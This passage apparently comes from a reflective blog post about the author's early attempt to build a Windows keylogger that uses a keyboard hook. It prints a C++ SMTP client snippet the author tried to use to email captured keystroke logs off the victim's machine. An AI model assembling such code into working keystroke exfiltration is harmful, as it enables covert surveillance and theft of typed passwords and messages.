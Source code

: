 There's a bunch of Windows macros as well as fixed-width redefinitions of C++ types (`DWORD` is a 4-byte unsigned integer, I believe). The function, hooked into a low-level keyboard hook, would be called when any key was pressed (almost, unless another hook is below this one, like when Task Manager starts).

I had no idea what this code did back then. It was just a mishmash of hacks I found online. The full application actually ended up working - the only problem was that it stored all the logged keys on a local file.

### Transferring keylogs

Surely it would be too much to ask for me, the hacker, to have to transfer files onto a physical USB every time I wanted to see what my user had been typing. At the time, I thought the easiest method to obtain the logfile from my own computer would have to been through email. So I looked online for how to do this. You'll probably find similar code if you perform the obvious search.

```c++
// Get the mail service port
lpServEntry = getservbyname("mail", 0);

// Use the SMTP default port if no other port is specified
if(!lpServEntry)
    iProtocolPort = htons(IPPORT_SMTP);
else
    iProtocolPort = lpServEntry->s_port;

// Setup a Socket Address structure
SockAddr.sin_family = AF_INET;
SockAddr.sin_port   = iProtocolPort;
SockAddr.sin_addr   = *((LPIN_ADDR)*lpHostEntry->h_addr_list);

// Connect the Socket
if(connect(hServer, (PSOCKADDR) &SockAddr, sizeof(SockAddr)))
{
    cout << "Error connecting to Server socket" << endl;

    return 1;
}

// Receive initial response from SMTP server
Check(recv(hServer, szBuffer, sizeof(szBuffer), 0), "recv() Reply");

// Send HELO server.com
sprintf(szMsgLine, "HELO %s%s", szSmtpServerName, CRLF);
Check(send(hServer, szMsgLine, strlen(szMsgLine), 0), "send() HELO");
Check(recv(hServer, szBuffer, sizeof(szBuffer), 0), "recv() HELO");
```

Knowing what I know now, this code actually might almost work - perhaps with a few system-specific adjustments. But back then, I knew nothing about what this was doing. Why did it misspell "hello" (of course, "EHLO" is an even worse mispelling in that case...)?

Of course, there are numerous threads online about sending emails in C++. It turns out that it's quite a complicated process. I spent hours trying all the code I could find, but none of them worked (or opened up Outlook, which a virus definitely does not want to do). Other code used pre-built libraries. I remember that I attempted to download some of these libraries for my program, but not being able to figure out include paths and such. It should be simple, right? Why did I have to download a full-fledged library just to send an email?
